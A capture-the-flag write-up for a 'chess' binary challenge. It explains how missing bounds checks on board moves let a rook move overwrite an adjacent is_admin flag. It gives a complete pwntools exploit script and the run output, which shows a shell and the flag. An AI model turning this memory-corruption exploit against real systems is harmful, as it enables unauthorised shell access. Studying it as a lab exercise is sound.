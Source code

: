 # chess Writeup

## Challenge infos

```text
Do you know how to play chess?
I sure do!
Challenge is running at: nc pwnable.co.il 9002
```

## Executable analysis
### checksec output
```text
        Arch:       amd64-64-little
        RELRO:      🟡 Partial RELRO
        Stack:      🔴 No canary found
        NX:         🟢 NX enabled
        PIE:        🔴 No PIE (0x400000)
        SHSTK:      🟢 Enabled
        IBT:        🟢 Enabled
        Stripped:   🔴 No
        Debuginfo:  🔴 Yes
```
* as we can see, the binary is not PIE, has no canary, and the NX bit is enabled.
* this means that we know the address of all symbols in the binary and can use ROP to execute code, but cannot run shellcode on the stack.
### code analysis
```c
int main(int argc, char* argv[]) {
    init_buffering();
    init_board();
    banner();
    int turn = WHITE;
    while (1) {
        print_board();
        char buf[6]; // max pgn chess move size
        memset(buf, 0, 6);
        scanf("%6s", buf);
		if (!strcmp(buf, "admin")) {
			if (is_admin) {
				system("/bin/sh");
			}
            continue;
		}
        getchar();
        chess_move* move = parse_move(buf, turn);
        do_move(board, *move);
        turn = 1 - turn;
    }
}
```
* the main function initializes the game, prints the board, and waits for user input.
* the user can enter a move in PGN format, which is a standard format for chess moves.
* if the user enters "admin", the program will check if the user is an admin and if so, it will execute a shell.

* let look where the `is_admin` variable is set:
```text
Showing symbols in chess...
   100: 0000000000401000     0 FUNC    GLOBAL HIDDEN    12 _init
    91: 0000000000401190    47 FUNC    GLOBAL DEFAULT   15 _start
    ...
    58: 00000000004050a9     1 OBJECT  GLOBAL DEFAULT   26 is_admin
    88: 00000000004050c0    64 OBJECT  GLOBAL DEFAULT   26 board
```
* the `is_admin` variable is a global variable that stored next to the `board` variable.
* that means that if we can overwrite the `is_admin` variable by overflowing the boad buffer, we can become an admin and execute a shell.

* we can see that when parsing a chess mov the program does not check if the move is out the bounds of the board, so we can overflow the buffer and overwrite the `is_admin` variable.
```c
uint8_t validate_rook_move(chess_move* out, uint8_t i, uint8_t j) {
    i = 7 - i;
    return j == out->file_dest || i == out->rank_dest;
}
```
```
 + + + + + + + + + + +
 + |r|n|b|q|k|b|n|r| + 
 + |p|p|p|p|p|p|p|p| + 
 + | | | | | | | | | + 
 + | | | | | | | | | + 
 + | | | | | | | | | + 
 + | | | | | | | | | + 
 + |P|P|P|P|P|P|P|P| + 
 + |R|N|B|Q|K|B|N|R| + 
 + + + + + + + + + + +
 ```
 * for example if we will mov the left black rook (`r`) 23 times to the left, we will overflow the buffer and overwrite the `is_admin` with the rook (setting it to true).


### Final exploit code
```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
# This exploit template was generated via:
# $ pwn template chess
from pwn import *

# Set up pwntools for the correct architecture
exe = context.binary = ELF(args.EXE or 'chess')

# Many built-in settings can be controlled on the command-line and show up
# in "args".  For example, to dump all data sent/received, and disable ASLR
# for all created processes...
# ./exploit.py DEBUG NOASLR



def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE:
        return remote('pwnable.co.il', 9002, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

# Specify your GDB script here for debugging
# GDB will be launched if the exploit is run via e.g.
# ./exploit.py GDB
gdbscript = '''
tbreak main
continue
'''.format(**locals())

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================
# Arch:     amd64-64-little
# RELRO:      Partial RELRO
# Stack:      No canary found
# NX:         NX enabled
# PIE:        No PIE (0x400000)
# SHSTK:      Enabled
# IBT:        Enabled
# Stripped:   No
# Debuginfo:  Yes

io = start()

is_admin = exe.sym['is_admin']
board = exe.sym['board']
distance = board - is_admin

# parsing a wihte move (no meaning, just to get the next prompt)
io.sendafter(b'+ +\n', b'Nc3\n')
# moving the rook to the is_admin address
io.sendafter(b'+ +\n', f'R{chr(ord('a') - distance)}8\n')
# getting shell access
io.sendafter(b'+ +\n', b'admin\n')
io.interactive()
```
* now, when we run the exploit, we should get a shell.
```
[+] Opening connection to pwnable.co.il on port 9002: Done
/home/omri/dev/pwn-writeups/il/chess/./exploit.py:56: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  io.sendafter(b'+ +\n', f'R{chr(ord('a') - distance)}8\n')
[*] Switching to interactive mode
 + |r|n|b|q|k|b|n|r| + 
 + |p|p|p|p|p|p|p|p| + 
 + | | | | | | | | | + 
 + | | | | | | | | | + 
 + | | | | | | | | | + 
 + | | |N| | | | | | + 
 + |P|P|P|P|P|P|P|P| + 
 + |R| |B|Q|K|B|N|R| + 
 + + + + + + + + + + +
 + + + + + + + + + + +
 + | |n|b|q|k|b|n|r| + 
 + |p|p|p|p|p|p|p|p| + 
 + | | | | | | | | | + 
 + | | | | | | | | | + 
 + | | | | | | | | | + 
 + | | |N| | | | | | + 
 + |P|P|P|P|P|P|P|P| + 
 + |R| |B|Q|K|B|N|R| + 
 + + + + + + + + + + +
$ ls
chess
flag
ynetd
$ cat flag
PWNIL{flag_is_here}
```